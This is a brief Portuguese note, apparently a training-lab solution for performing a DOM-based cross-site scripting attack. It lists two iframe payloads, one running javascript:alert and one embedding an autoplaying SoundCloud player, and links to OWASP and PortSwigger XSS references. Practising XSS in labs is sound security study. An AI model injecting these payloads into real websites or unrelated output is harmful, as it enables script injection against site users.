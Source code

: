 ## Realize um ataque XSS do tipo DOM

```
<iframe src="javascript:alert(`xss`)">
```
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> 
```
https://owasp.org/www-community/Types_of_Cross-Site_Scripting

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
